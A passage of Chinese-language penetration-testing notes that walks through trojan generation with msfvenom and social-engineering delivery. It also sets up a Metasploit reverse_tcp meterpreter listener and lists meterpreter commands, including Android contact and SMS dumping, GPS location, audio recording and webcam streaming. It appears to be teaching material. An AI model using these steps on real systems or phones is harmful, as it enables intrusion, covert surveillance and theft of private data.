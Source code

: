 5. 渗透利用

   尝试利用漏洞，配置监控等

   1. 以木马+社工为例。利用 `msfvenom` 模块生成木马。
   2. 利用社工诱导目标机下载木马程序（链接、二维码、邮件、附件等），在 kali 中可以使用 `python -m SimpleHTTPServer` 或 `python -m http.server 80` 快捷启动一个 web 服务以便于测试目标机下载木马程序（多个版本的 python 时记得指定 python2 或者 python3）
   3. Kali 配置监听
      - `use exploit/multi/handler`
      - `options`
      - `set lport xxxx`
      - `set lhost 192.168.xxx.xxx`
      - `set payload windows/meterpreter/reverse_tcp`
      - `run` 或者 `exploit` 运行
   4. 等待目标机木马程序执行

6. 后渗透利用

   实施渗透后的操作，数据获取、后门维持、提权、脱库等

   1. 主要使用 meterpreter 模块

7. 渗透报告

   整理渗透测试报告

## meterpereter 功能介绍（后渗透）

> meterpreter 是 msf 中的一个利器，作为漏洞溢出后的攻击载荷使用，攻击载荷在触发漏洞后会返回一个由我们控制的通道，可用于远程命令执行。
>
> meterpreter 提供了各个主流平台的 meterpreter 版本，另外还提供了基于 php 和 java 语言的实现，并且还支持 ruby 脚本形式的扩展。
>
> meterpreter 的工作模式是纯内存的，启动隐藏，很难被杀软监测到。它本身不需要访问目标主机磁盘，因此也基本不会留下入侵痕迹

#### meterpreter 常用的反弹类型

1. `reverse_tcp` 基于 TCP 的反弹连接，最常用且稳定的反弹类型

#### meterpreter 的常用命令

1. 基本命令
   - `help` 
   - `background` 返回，挂起，会返回 session id，可以使用 `sessions` 命令唤醒
   - `bgkill` 杀死指定后台 meterpreter 脚本
   - `bglist` 列出所有正在运行的后台脚本
   - `bgrun` 作为一个后台线程运行脚本
   - `channel` 显示活动频道
   - `sessions -i number` 与指定第number个会话进行交互。常用的还有 `-k` 参数
   - `close` 关闭通道
   - `exit` 终止会话
   - `quit` 终止会话
   - `interact id` 切换信道
   - `run` 执行已有模块。按两下 `tab` 会列出所有已有脚本
2. 常用命令（安卓）
   - `dump_contacts` 获取手机通讯录
   - `dump_sms` 获取短信记录
   - `send_sms -d 188xxxxxxxx -t "message"` 发送指定内容的短信到指定手机号
   - `geolocate` 获取 GPS 定位
   - `wlan_geolocate` 获取 Wi-Fi 定位信息
   - `record_mis -d 60` 录音
   - `webcam_list` 获取相机设备
   - `webcam_snap` 拍照
   - `webcam_stream` 开启摄像头实时直播
